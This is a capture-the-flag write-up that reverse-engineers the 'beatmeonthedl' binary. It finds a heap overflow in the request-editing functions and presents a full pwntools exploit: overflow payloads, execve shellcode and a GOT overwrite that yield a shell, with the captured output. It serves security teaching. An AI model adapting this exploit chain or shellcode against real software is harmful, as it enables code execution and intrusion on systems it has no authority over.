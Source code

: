 # Writeup
The challenge gives the beatmeonthedl executable and that's all.
Doing a reverse engineering, we can note:

1- The main is an organized menu, pretty legible.

![beatmeonthedl1](https://cloud.githubusercontent.com/assets/1280700/25596814/9264fb4a-2ea1-11e7-9129-2dd659003e38.png)

2- The reqlist is stored in the .bss area, more specifically at address 0x609e80. It is an array
of pointers (max of 32 places).

![beatmeonthedl2](https://cloud.githubusercontent.com/assets/1280700/25601525/22abb95c-2ec3-11e7-8cd0-aceb26fae64d.png)

3- There are buffer overflow vulnerabilities in the add_request and update_request functions. While
the allocated memory for a request string is of 56 bytes (line 15), it allows writing 128 bytes
(line 23).  

![beatmeonthedl3](https://cloud.githubusercontent.com/assets/1280700/25596816/9274b666-2ea1-11e7-9154-d186d88da477.png)

4- The buffer overflow vulnerabilities cause weird things when deleting an overflowed buffer. After
inspecting for a while through gdb, I noticed that it was possible to write anything to anywhere.
For example, after deleting the input *"A"\*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" +
"\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00"*, it writes 0x609f90 in position 3 of reqlist
0x609e98 (0x609e80 + 0x18). 

![beatmeonthedl4](https://cloud.githubusercontent.com/assets/1280700/25601531/2d682fec-2ec3-11e7-9f62-8ae629d122f2.png)

Using the usual free function from stdlib, this does not happen, and a runtime error of *free():
invalid next size (fast)* occurs. This exaplains why the free function is embedded in the
beatmeonthedl executable.

After confirming this strange behavior, I wrote the script below which gave me a shell.

```python
from pwn import *

p = process("./beatmeonthedl")
#p = remote("beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me", 6969)
res = p.recvuntil("Enter username: ")
p.sendline("mcfly")
res = p.recvuntil("Enter Pass: ")
p.sendline("awesnap")
#adds foir request texts:
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("CCCCCCCC")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("DDDDDDDD")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("EEEEEEEE")
res = p.recvuntil("| ")
p.sendline("1")
res = p.recvuntil("Request text > ")
p.sendline("FFFFFFFF")

#replaces the third text, overflowing the fourth
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("2")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x80\x9e\x60\x00\x00\x00\x00\x00" + "\x90\x9f\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609f90 at 0x609e80 + 0x18 (fourth position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("2")

#writes our shellcode at 0x609f90 (the fourth position)
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("3")
res = p.recvuntil("data: ")
p.sendline("\x90"*10 + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")

#replaces the first text, overflowing the second
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("0")
res = p.recvuntil("data: ")
p.sendline("A"*56 + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x70\x9e\x60\x00\x00\x00\x00\x00" + "\x58\x99\x60\x00\x00\x00\x00\x00")

#deletes the third text, causing a bug on the free function and writing 0x609958 at 0x609e70 + 0x18 (second position)
res = p.recvuntil("| ")
p.sendline("3")
res = p.recvuntil("choice: ")
p.sendline("0")

#writes the address of our shellcode in the put got
res = p.recvuntil("| ")
p.sendline("4")
res = p.recvuntil("choice: ")
p.sendline("1")
res = p.recvuntil("data: ")
p.sendline("\x90\x9f\x60\x00\x00\x00\x00\x00")

p.interactive()
```

```
[+] Opening connection to beatmeonthedl_498e7cad3320af23962c78c7ebe47e16.quals.shallweplayaga.me on
port 6969: Done
[*] Switching to interactive mode
$ ls
beatmeonthedl
flag
$ cat flag
The flag is: 3asy p33zy h3ap hacking!!
```
